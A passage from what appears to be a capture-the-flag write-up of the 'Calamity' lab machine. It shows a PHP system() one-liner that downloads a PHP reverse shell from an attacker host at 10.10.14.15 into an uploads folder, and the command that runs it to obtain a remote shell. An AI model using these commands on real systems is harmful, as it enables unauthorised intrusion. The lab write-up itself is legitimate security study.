 it exectes then it closes the conncection so it seems we will have just to upload the shell to the upload it shell so that we can execte it via uploads. i use [PHP reverse shell ](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  

```sh
<?php system("wget http://10.10.14.15:8000/php-reverse-shell.php -P uploads;"); ?>
```

![](/Linux/Linux-Hard/Calamity/Screenshots/phprevershell.png)

Then we use the `shell.php`  to run the revershell

```sh
php php-reverse-shell.php
```


![](/Linux/Linux-Hard/Calamity/Screenshots/runningshell.png)

then just like that we get a  stable shell

![](/Linux/Linux-Hard/Calamity/Screenshots/shell.png)
